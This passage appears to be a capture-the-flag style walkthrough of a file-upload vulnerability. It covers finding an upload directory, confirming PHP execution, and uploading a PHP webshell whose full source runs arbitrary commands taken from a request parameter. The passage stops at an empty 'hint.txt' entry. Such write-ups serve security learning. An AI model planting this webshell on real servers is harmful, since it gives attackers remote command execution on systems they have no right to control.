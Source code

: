 I will upload a sample.jpg image and check the path

```shell
/uploaded_files/filename 
```

We know this by checking the robots.txt page (obtained with nMap) that htis directory exists.


![](https://lh6.googleusercontent.com/nqOZvp0Yy-MJI9IJZ3Bt1o5TABLrN4VzgBb5WRzfOydJijEGGWbWCJYYSjJU88zO10BThM59No_T3_rVEuBo_Zb9vXVC19rTmxiqQOzeyYjCXVQKjyj-FlnaMC1G1DrllIxoOLm3)



![](https://lh6.googleusercontent.com/_1z4y6VSGXdjq-g3eklqPacG6YyaHF3d9b_qU_zzXWLaIia0owRQyBOdCXqfbmtc4KNU88_VnRXlSwSNvLP4PWvgKKIED0PYibxw8IBboJwt69laNtkxG02AHsQttzkDR4JKLCfG)


We have managed to upload a new image.

I’ll try to upload a php file to see if we are able to execute remote code: I will upload a simple hello world php file:


![](https://lh5.googleusercontent.com/IY9ngqU9R_8YPGDoVKI_Vq8b-nn2crPE4cCvqt_yDAOKv2DKQpx0i-ZUi0vo-xNElZf2XgJackLksfBgZdSLuApVl1rWK5ZkWjSiTb7o-V0kOBgCWomA1apn24GLK2pnY3e6tfX6)


We have seen that we are able to execute remote code in the server. Let’s upload a **webshell.php** file with a backdoor to execute arbitrary code:

```shell
<?php
if (isset($_REQUEST["cmd"])) {
    echo "&lt;pre>";

    $cmd = $_REQUEST["cmd"];

    exec($cmd, $results);

    foreach ($results as $r) {
        echo $r . "&lt;br/>";
    }

    echo "&lt;/pre>";

    die();
} ?>

```







Exploring the directory of the web page we find the file hint.txt that can give us some clue:


![](https://lh4.googleusercontent.com/xjd1EV-TFrFcdPSCPvjBs3zvarCv5Zs4n48EA_7Yd6_sIR10IBYRalT89LW0p_uP4_whoif7UzIn0t0oQ92ZVwS0LY0XwF-3I9ICqBu3Wi6q3sF1n3CY00LMc-yVei_c56J5V0D3)


hint.txt:
